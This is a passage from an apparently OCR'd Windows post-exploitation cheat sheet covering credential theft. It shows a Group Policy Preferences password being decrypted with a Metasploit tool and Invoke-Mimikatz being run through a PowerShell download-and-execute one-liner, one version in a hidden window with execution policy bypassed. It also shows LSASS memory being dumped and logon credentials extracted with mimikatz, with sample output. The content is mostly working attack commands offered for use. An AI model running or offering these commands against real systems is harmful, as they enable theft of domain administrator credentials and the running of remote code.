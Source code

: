 ```
metasploit-framework [rapid7-master] ->> ./tools/password/cpassword_decrypt.rb j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
[+] The decrypted AES password is: Local*P4ssword!
```

Or

you can also do it with [gpp_password_decrypt.py](https://github.com/nixawk/python-programming/blob/master/crypto/gpp_password_decrypt.py).


## Dump credentials with Invoke-Mimikatz

[**Invoke-Mimikatz**](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1) should be able to dump credentials from any version of Windows through Windows 8.1 that has PowerShell v2 or higher installed.

```
PS C:\Users\Administrator\Desktop> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1")
PS C:\Users\Administrator\Desktop> Invoke-Mimikatz
```

or

```
C:\Windows\system32> powershell.exe -exec bypass -windows hidden -c IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1");Invoke-Mimikatz
```

## Dump LSASS memory with Task Manager (get Domain Admin credentials)

Once LSASS is dumped, Mimikatz can be used to extract logged on credentials from the LSASS.dmp file on a different system. On a Domain Controller, this almost always results in Domain Admin credentials.

![](windows-2012-lsass-dump.png)

```
PS C:\Users\Administrator\Desktop\MimikatzX64> .\mimikatz.exe

  .#####.   mimikatz 2.1 (x64) built on Oct 29 2016 21:27:40
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 20 modules * * */

mimikatz # sekurlsa::minidump C:\Users\Administrator\Desktop\lsass.DMP
Switch to MINIDUMP : 'C:\Users\Administrator\Desktop\lsass.DMP'

mimikatz # sekurlsa::logonpasswords
Opening : 'C:\Users\Administrator\Desktop\lsass.DMP' file for minidump...

Authentication Id : 0 ; 391874 (00000000:0005fac2)
Session           : Interactive from 1
User Name         : Administrator
Domain            : THEGEEKSTUFF
Logon Server      : SERVER
Logon Time        : 2016/11/5 12:08:54
SID               : S-1-5-21-2783134295-2946968820-3756090084-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : THEGEEKSTUFF
```